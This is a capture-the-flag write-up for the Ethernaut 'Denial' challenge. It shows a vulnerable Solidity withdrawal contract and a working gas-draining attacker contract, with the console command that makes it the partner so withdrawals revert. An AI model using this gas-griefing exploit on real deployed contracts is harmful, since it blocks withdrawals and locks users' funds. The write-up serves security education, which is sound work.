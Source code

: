 ```yaml
---
title: Ethernaut - Denial - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Denial CTF
---
```


# Ethernaut - Denial - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9e);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Exploit

Notice that `partner.call{value:amountToSend}("")` will forward 63/64 of the available gas to the `partner`. Hence, we can perform a Denial-of-Service attack by deploying the contract below and setting this contract as the new `partner`. In the Ethernaut console, this can be achieved by first deploying the contract, e.g., via Remix, and then executing `await contract.setWithdrawPartner("<put your gas consumer contract address here>")` in the console.

Here's a simple example of a contract that will consume all available gas:

```solidity
// SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.0;

contract GasConsumer {
    uint public counter;

    // Consumes all available gas
    receive() external payable {
        while (true) {
            counter++;
        }
    }
}
```

Since 63/64 of the initial gas supply will already be gone after executing `partner.call{value:amountToSend}("")`, the remaining 1/64 won't be sufficient to execute the rest of the function. Therefore, the transaction will run out of gas and revert.

Two final comments:

1. Depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e., one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this attack. In our particular case, however, the challenge specifically requires us to assume that the transaction is of 1M gas or less. Under this assumption, the above DoS attack will be successful.
2. You might be tempted to simply use `assert(false)` instead of an infinite loop to consume all gas. Admittedly, this approach would result in even fewer lines of code for the attacker contract. However, this approach only works prior to Solidity version 0.8.0! From 0.8.0 onwards, `assert` no longer uses the INVALID opcode (which consumes all remaining gas) but instead the REVERT opcode (which refunds the remaining gas to the sender). You can read up on the details in the [Solidity docs](https://docs.soliditylang.org/en/latest/080-breaking-changes.html) and in [this article](https://hackernoon.com/an-update-to-soliditys-assert-statement-you-mightve-missed).
